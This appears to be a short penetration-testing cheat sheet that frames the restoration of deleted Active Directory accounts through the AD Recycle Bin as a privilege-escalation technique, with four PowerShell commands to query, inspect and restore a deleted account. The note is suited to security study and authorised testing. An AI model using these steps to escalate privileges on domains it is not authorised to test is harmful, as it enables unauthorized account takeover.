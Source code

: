 ```yaml
---
title: "AD Recycle Bin"
date: 2024-7-13
tags: ["Domain Controller", "AD Recycle Bin", "Active Directory", "Windows"]
---
```


### Privesc #1: Restore deleted AD account

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import AD module

```console
import-module activedirectory
```

#### 2. Query all deleted objects within domain

```console
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

#### 3. Get all details for the deleted account

```console
Get-ADObject -filter { SAMAccountName -eq <DELETED_USER> } -includeDeletedObjects -property *
```

#### 4. Restore the deleted account

```console
# Rename the target account to avoid user exists error
Restore-ADObject -Identity <OBJECT_GUID> -NewName '<NEW_USER>' -TargetPath 'CN=Users,DC=<EXAMPLE>,DC=<COM>'
```

{{< /tabcontent >}}
